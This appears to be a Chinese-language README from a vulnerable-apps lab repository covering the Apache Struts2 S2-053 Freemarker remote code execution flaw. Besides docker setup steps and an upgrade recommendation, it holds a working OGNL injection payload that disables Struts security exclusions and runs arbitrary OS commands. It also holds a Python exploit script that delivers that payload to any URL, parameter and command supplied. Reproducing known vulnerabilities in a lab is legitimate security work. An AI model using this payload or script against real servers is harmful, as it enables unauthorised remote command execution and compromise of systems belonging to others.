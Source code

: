 ## Struts2 Freemarker tags 远程代码执行漏洞(S2-053)环境

### 漏洞信息

 * [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-053
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-053
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 访问 Demo 页面, 随便输入值，可看到页面输出我们提交的值

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-1.png)

2. 在输入框中输入 `%{100-3}`，然后提交，发现 `%{}` 中的表达式被执行

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-2.png)

#### Exp

命令执行 Exp(有回显):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

替换Exp中的 `(#cmd='whoami')` 中的命令即可

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/exp-1.png)

### 修复建议

升级Apache struts 至 2.5.12 版本 或者 2.3.34 版本

### 参考链接

* [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)
* [S2-053 复现分析过程(附POC) - 猎户攻防实验室](https://mp.weixin.qq.com/s/4CiKgVn7Y-hWUKRjgECsuA)

```
import requests
import sys
from urllib import quote

def exploit(url):
    res = requests.get(url, timeout=10)
    if res.status_code == 200:
        print "[+] Response: {}".format(str(res.text))
        print "\n[+] Exploit Finished!"
    else:
        print "\n[!] Exploit Failed!"

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print """****S2-053 Exploit****
Usage:
    exploit.py <url> <param> <command>
Example:
    exploit.py "http://127.0.0.1/" "name" "uname -a"
        """
        exit()
    url = sys.argv[1]
    param = sys.argv[2]
    command = sys.argv[3]
    #payload = "%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+command+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"""
    # Can show the echo message
    payload = "%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+command+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}"
    link = "{}/?{}={}".format(url, param, quote(payload))
    print "[*] Generated EXP: {}".format(link)
    print "\n[*] Exploiting..."
    exploit(link)
```
